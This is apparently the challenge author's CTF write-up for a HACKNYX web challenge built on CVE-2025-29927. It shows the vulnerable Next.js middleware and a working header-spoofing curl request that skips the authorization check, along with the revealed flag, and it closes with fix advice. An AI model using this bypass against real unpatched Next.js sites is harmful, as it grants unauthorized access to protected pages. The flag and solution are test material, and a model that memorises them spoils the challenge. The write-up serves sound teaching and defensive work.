

> This challenge was created by me for HACKNYX CTF 2026 under the Web category. It's built around a real-world bug — **CVE-2025-29927**, the Next.js middleware authorization bypass — so the writeup doubles as a little tour of that CVE.
{: .prompt-info}

Hello again! After the heavier client-side and SQLi chains, this one is a nice palate cleanser — a single-step challenge that teaches one very important lesson: **middleware is not an authentication boundary.** It's based on a real Next.js CVE that made the rounds in early 2025, and once you see the trick it's basically a one-liner with `curl`.

## Challenge Description

> Name: Middle Management
>
> Category: Web
>
> Difficulty: Easy
>
> Northwind Labs just rolled out their slick new internal operations dashboard. After a long sprint the team pushed it live, declared it production-ready, and moved straight on to the next thing on the roadmap. Everything looks buttoned-up from the outside. Take a look around.

## 1. Recon

The landing page is upfront about the shape of the app:


> Most of the dashboard is open to the whole company. The `/admin` console is staff-only and is gated for you before you ever reach it — no badge, no entry.

So there are two routes that matter:

- `GET /` → the public landing page above.
- `GET /admin` → a **307 redirect** straight back to `/`.

Something is behind `/admin` that we're not allowed to see. Where does that redirect come from? Grab the source. It's a small Next.js 14 app (App Router), and the interesting file is `middleware.js` at the project root:

```javascript
export function middleware(request) {
  const session = request.cookies.get('staff_session')?.value;
  if (session !== STAFF_SECRET) {
    return NextResponse.redirect(new URL('/', request.url));
  }
}

export const config = { matcher: ['/admin', '/admin/:path*'] };
```
{: file="middleware.js" }

And the page it's protecting, `app/admin/page.js`, does **no auth of its own** — it just renders the flag, trusting that the middleware already vetted the request before control ever reached it. That assumption — *"if you're running this code, the gate must have let you through"* — is the entire vulnerability.

> Whenever you see authorization living **only** in middleware / a proxy / an edge function, and the route it's guarding does nothing to re-check, your antenna should go up. That route is one bypassed middleware away from being wide open.
{: .prompt-info }

## 2. How Next.js middleware actually works (and where the bug is)

Next.js middleware is a function that runs **before** a request is matched to a route — handy for redirects, rewrites, and auth gates. It runs in the lightweight Edge runtime, and it can itself trigger internal sub-requests (a rewrite to another route, a `fetch()` to an internal API, and so on).

That creates a problem the framework has to solve: if middleware rewrites `/a` → `/b`, and `/b` also matches the middleware's `matcher`, you get **infinite recursion** — middleware calling middleware calling middleware. Next.js's fix was an internal header:

```
x-middleware-subrequest: <name of the middleware module>
```

When the framework makes an internal sub-request, it stamps this header on it. The middleware runner checks the header on the way in: if it says "this middleware is already in the call stack," the runner **skips executing it** and lets the request fall straight through to the route.

**CVE-2025-29927** is that the runner trusts this header *even when it arrives from the client*. Nothing strips `x-middleware-subrequest` from inbound requests, so an attacker can just send it. Set it to name the current middleware, and the runner concludes "already running, skip it" — and the middleware never executes at all.

In this app, that middleware is the *only* thing between an anonymous request and `/admin`.



Affected versions: this app pins `next@14.2.24`; the fix shipped in **14.2.25 / 13.5.9 / 15.2.3 / 12.3.5**.

## 3. Build the payload

The middleware file is `middleware.js` at the project root, so its module name is just `middleware`. Two details about the header value:

- **Earlier vulnerable builds** used a loose `includes()` check — the header just has to *contain* the middleware name.
- **Later 14.x builds** added a recursion-depth guard (the header is split on `:` and the number of segments is capped). Repeating the name a few times gets past that limit and still satisfies the `includes()` check.

So the value that covers both:

```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

## 4. Exploit

One request:

```bash
curl -s http://TARGET:3000/admin \
  -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware'
```

Without the header you get `307 → /`. With it, the middleware is skipped, `/admin` renders server-side, and the flag is sitting in the HTML:


```text
$ curl -si http://target:3000/admin | head -2
HTTP/1.1 307 Temporary Redirect
location: /

$ curl -s http://target:3000/admin \
      -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" \
      | grep -o "HYNX{.*}"
HYNX{m1ddl3w4r3_1snt_4n_4uth_b0undary}
```

The automated version is `solve/solve.py`:

```bash
python3 solve/solve.py http://127.0.0.1:3000
```

→ **Flag** → `HYNX{m1ddl3w4r3_1snt_4n_4uth_b0undary}`

## 5. Fixing it

- **Upgrade Next.js** to a patched release (≥ 14.2.25 for the 14.x line). This is the actual fix — the header should never be honoured from the client.
- **Don't make middleware the sole authorization boundary.** Re-check auth in the route handler, a server action, or (best) the data layer — somewhere a skipped middleware can't take the check with it. In the App Router that means a check inside `app/admin/page.js` itself, not just the `matcher`.
- **Strip `x-middleware-subrequest` at the edge/proxy** for inbound client requests, as defence-in-depth.

## Conclusion

Short and sweet, but genuinely worth internalising: defence-in-depth exists precisely so that one bypassed control doesn't hand over the whole app. Northwind Labs put all their trust in a single middleware check, and CVE-2025-29927 let us walk right around it. Keep your auth as close to the data as possible, and never let *"they couldn't have reached this code without passing the gate"* be the only thing guarding your gate.

Till the next one, ciao!
